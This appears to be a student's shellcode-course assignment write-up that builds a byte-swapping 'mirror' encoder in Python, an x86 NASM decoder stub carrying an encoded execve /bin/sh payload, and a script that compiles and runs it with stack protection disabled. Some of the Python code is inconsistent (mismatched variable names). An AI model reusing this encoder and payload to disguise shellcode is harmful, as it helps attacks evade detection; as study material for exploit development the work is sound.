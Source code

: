 # Assignment 4

## What to do:

-Create a custom encoding scheme like the “Insertion Encoder” we showed you. 

-PoC with using execve-stack as the shellcode to encode with your schema and execute.

## Solution: 
  1) Create the encoder.
  
  The encoder created (Mirror_encoder.py) takes the every 4 bytes of the shellcode and reverse its order, meaning, if the string taken is 0x45a3, the resultant will be 0xa345 (this is done until the end of the shellcode is reached). In case the shellcode has not even length, 0xf0 is added to the end of the shellcode to allow the "mirror" modification. 0xf0f0 is appended to the final shellcode as the marker which will be used to stop the nasm decoder.
    
  ######### Mirror-Encoder.py
  
    for x in bytearray(shellcode):  #Add to shell the shellcode as hexadecimal format
      shell += '\\x' + '%02x' % x

    shell2 = ""
    for i in range(0,4*len(bytearray(shellcode)),8): #Loop which takes 2 bytes and swap its order
      if (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==6:
        shell3 += "0"+ shell[i+5:i+8] + "," + "0"+shell[i+1:i+4] + ","
      elif (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==3: #If the length of the shellcode is not even, it is added 0xf0 to make it even. 
        shell3 += "0xf0" + "," + "0"+shell[i+1:i+4] + ","


    print shell2 + "0xf0,0xf0" #Marker to finish the decoder
    
  2) PoC with using execve-stack as the shellcode to encode.
  
   * The shellcode to be used is the one obtained from the execve-stack binary.
    
    nasm -f elf32 -o execve.o execve.nasm
    ld -o execve execve.o
    objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
   
   3) Create the nasm decoder.
   
   * The shellcode obtained in the earlier step, must be passed to Mirror_Encoder.py where is "mirrored".
   
   * Now, we have the shellcode to inject into the Mirror_decoder.nasm
   
  ######### Mirror-decoder-compile.sh
  
    global _start			

    section .text
    _start:

      jmp short call_shellcode  ;jump-call-pop technique

    decoder:

      pop esi			; pop shellcode into esi
      lea edi, [esi]		; Copy the position in memory of the shellcode to edi, where we will save the decoded one
      xor eax, eax		; Clearing out eax and ecx
      xor ecx, ecx

    decode:
      mov ax, [esi]                ; Moves the first to bytes of esi to ax
      mov cx, ax		     ;Moves ax to cx to check if it is the end of the shellcode
      xor cx, 0xf0f0               ; Compare cx with 0xf0f0 marker
      jz short EncodedShellcode    ; if xor os 0, jump to shellcode
      mov byte [edi], ah           ;Move the second byte to the first byte of edi
      mov byte [edi + 1], al;      ; Move the first byte to the second byte of edi --> 0x31c0 moves to 0xc031 in edi 	
      inc edi			     ; move to next byte in edi
      inc edi			     ; move to next byte in edi	
      inc esi			     ; move to next byte in esi
      inc esi                      ; move to next byte in esi 
      jmp short decode	     ; jump back to start of decode

    ;Modifications can be vieweb by using x/20xc *call during execution (gdb)	

    call_shellcode:

    call decoder
    EncodedShellcode: db 0xc0,0x31,0x68,0x50,0x2f,0x2f,0x68,0x73,0x2f,0x68,0x69,0x62,0x89,0x6e,0x50,0xe3,0xe2,0x89,0x89,0x53,0xb0,0xe1,0xcd,0x0b,0xf0,0x80,0xf0,0xf0,0xee,0xee

4) Compiling the final shellcode
    
* Once the nasm code is finished, we can use mirror-decoder-compile.sh to assembly and link it, copy the shellcode to the skeleton_shellcode.c, compile the final shellcode and execute it.
   
    ######### Mirror-decoder-compile.sh
    
          echo '[+] Assembling with Nasm ... '
          nasm -f elf32 -o mirror-decode.o mirror-decode.nasm

          echo '[+] Linking ...'
          ld -o mirror-decode mirror-decode.o

          echo '[+] Done!'

          sleep 2

          echo "[+] Dumping disassembling code.."

          objdump=$(objdump -d ./mirror-decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

          echo $objdump 
          sleep 3

          echo "[+] Compiling shellcode.c and executing it.."

          cp skeleton_shellcode.c shellcode.c  #Copy the skeleton of the shellcode (it contais a string named shellcode which it will be replaced with objdump)

          replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump

          sleep 2

          gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode


          ./shellcode    
